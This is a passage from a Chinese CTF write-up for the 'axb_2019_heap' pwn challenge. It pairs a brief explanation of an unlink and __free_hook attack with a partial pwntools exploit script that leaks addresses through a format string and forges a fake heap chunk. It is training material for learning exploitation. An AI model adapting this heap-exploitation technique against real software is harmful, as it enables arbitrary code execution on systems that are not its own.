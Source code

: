```
        return result;
      `}`
    `}`
    else
    `{`
      result = (unsigned int)++v3;
      if ( a2 + 1 &lt;= v3 )
        return result;
    `}`
  `}`
  return result;
`}`
```

于是我们可以构造UNlink，将chunk申请到存放chunk地址的位于bss段的note处，然后将free_hook的地址写入note，对free_hook修改为one_gadget，然后getshell。

exp:

```
from pwn import *

# context(log_level='debug', arch='amd64', os='linux')

io = process('./axb_2019_heap', env=`{`"LD_PRELOAD": "./libc-2.23.so"`}`)
io = remote('node3.buuoj.cn', 27256)
libc = ELF('./libc-2.23.so')


def add(index, size, content):
    io.sendlineafter('&gt;&gt; ', str(1))
    io.sendlineafter('create (0-10):', str(index))
    io.sendlineafter('size:\n', str(size))
    io.sendlineafter('content: \n', content)


def delete(index):
    io.sendlineafter('&gt;&gt; ', str(2))
    io.sendlineafter('index:\n', str(index))


def edit(index, content):
    io.sendlineafter('&gt;&gt; ', str(4))
    io.sendlineafter('index:\n', str(index))
    io.sendlineafter('content: \n', content)
    io.recvuntil('Done!')


io.sendlineafter('name: ', '%11$p%15$p')
io.recvuntil('Hello, ')

base = int(io.recv(14), 16) - 0x1186
libc_base = int(io.recv(14), 16) - libc.sym['__libc_start_main'] - 240
note = base + 0x202060
one_gadget = libc_base + 0x4526a
free_hook = libc_base + libc.sym['__free_hook']
print('libc -&gt; ' + hex(libc_base))
print('process_base -&gt; ' + hex(base))

add(0, 0x98, 'content')
add(1, 0x98, 'content')
add(2, 0x90, 'content')

payload = p64(0) + p64(0x91) + p64(note - 0x18) + p64(note - 0x10)
```